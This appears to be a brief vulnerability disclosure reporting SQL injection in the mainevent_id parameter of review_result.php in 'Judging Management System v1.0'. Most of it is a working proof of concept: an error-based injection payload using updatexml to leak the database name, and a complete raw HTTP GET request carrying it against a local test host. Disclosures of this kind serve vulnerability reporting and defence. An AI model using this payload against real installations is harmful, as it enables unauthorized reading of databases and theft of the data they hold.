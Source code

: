 # Judging Management System v1.0 by oretnom23 has SQL injection

BUG_Author: 董鹏

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/review_result.php?mainevent_id=

Vulnerability location: /php-jms/review_result.php?mainevent_id=, mainevent_id

dbname =jms_db

[+] Payload: /php-jms/review_result.php?mainevent_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+// Leak place ---> mainevent_id

​```sql
GET /php-jms/review_result.php?mainevent_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
​```

![image](https://user-images.githubusercontent.com/54017627/206375940-a8615afb-9665-4155-b3c0-27f1bd91c856.png)
